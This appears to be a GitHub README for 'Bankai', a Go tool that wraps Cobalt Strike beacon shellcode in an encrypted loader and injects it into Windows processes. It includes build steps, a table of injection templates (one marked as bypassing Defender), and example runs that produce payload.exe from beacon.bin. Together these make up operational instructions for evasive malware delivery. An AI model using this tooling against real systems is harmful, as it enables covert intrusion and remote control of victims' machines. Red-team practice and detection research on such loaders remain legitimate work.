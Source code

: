 <p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw binary payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b> - I implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying for [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8). This is mainly for protecting Cobalt Strike payload when it's moved over to the target host. The final compiled payload will include a decrypt function within.

<b>Templates</b> - Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                        Last update: 06/07/21
    +--------------------------------------+-----------+------------------+
    | Techniques                           | PID       | Bypass Defender  |
    +--------------------------------------+-----------+------------------+
    | win32_VirtualProtect.tmpl            |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateFiber.tmpl               |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThreadNative.tmpl  | Required  |        Yes       | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThread.tmpl              |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EtwpCreateEtwThread.tmpl       |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_Syscall.tmpl                   |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadpoolWait.tmpl      |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumerateLoadedModules.tmpl    |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumChildWindows.tmpl          |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThread.tmpl        | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_RtlCreateUserThread.tmpl       | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadNative.tmpl        |           |        No        | 
    +--------------------------------------+-----------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64
    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe

    ./bankai -i beacon64.bin -o payload.exe -t win64_CreateRemoteThread.tmpl -a 64 -p 7720
    [INFO] Key: 3mOL2Ne5XIW4xCieiR7cPmHtw4o737Do
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateRemoteThread.tmpl
    [INFO] InputFile: beacon64.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
* Add more shellcode injection technique templates
* Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found
* Test these shellcodes with modified malleableC2 profiles 

### Change Log
##### 06/02/21
* Added `win64_CreateThreadpoolWait.tmpl`
* Added `win64_EnumerateLoadedModules.tmpl`
* Added `win64_EnumChildWindows.tmpl`
* Updated some error handling

##### 06/07/21
* Added `win64_EnumPageFilesW.tmpl`
* Added `win64_CreateRemoteThread.tmpl`
* Added `win64_RtlCreateUserThread.tmpl`
* Added `win64_CreateThreadNative.tmpl`

